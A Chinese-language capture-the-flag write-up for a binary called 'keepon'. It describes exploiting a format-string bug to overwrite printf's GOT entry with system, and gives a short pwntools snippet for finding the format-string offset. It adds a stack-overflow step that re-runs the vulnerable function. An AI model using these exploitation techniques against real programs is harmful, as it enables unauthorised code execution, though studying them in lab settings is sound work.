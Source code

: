 题解：[😘欢迎回来~ | 坠入星野的月🌙 (uf4te.cn)](https://www.uf4te.cn/posts/6f874503.html#:~:text=%E5%8F%8B%E9%93%BE%E6%9C%8B%E5%8F%8B%E5%9C%88.%20%E5%AE%9E%E7%94%A8%E5%B7%A5)
![[Pasted image 20240908192622.png]]
可以发现有格式化字符串漏洞可利用
![[Pasted image 20240908192730.png]]
给了个假的`backdoors`，运行了他会输出一个真"flag"
但也可以发现有`system`函数
可以利用格式化字符串漏洞将`printf`函数的GOT表换为`system`函数的地址，这样在运行`printf`函数的时候实际执行的就是`system`函数
利用`fmtstr_payload(偏移量, {原函数：替换后函数})`函数，可以直接构造出替换的payload
计算偏移量可用直接观察法~~目前我没观察出来~~或用`fmtstr`类提供的方法
```python
def exec_fmt(payload):
    p = process('./keepon')
    pwnlib.gdb.attach(p, 'b printf')
    p.recvuntil('name: ')
    p.recvline()
    print(payload)
    p.sendline(payload)
    info = p.recv()
    print(info)
    return info
    
if __name__ == '__main__':
    auto_fmtstr = FmtStr(exec_fmt)
```
多运行几次就会给出偏移量
将`printf`函数的GOT表地址换过之后还需至少运行一遍`printf`，故可以在第二次`read`函数内栈溢出，使`vuln`函数重运行，然后就可以运行`system`了
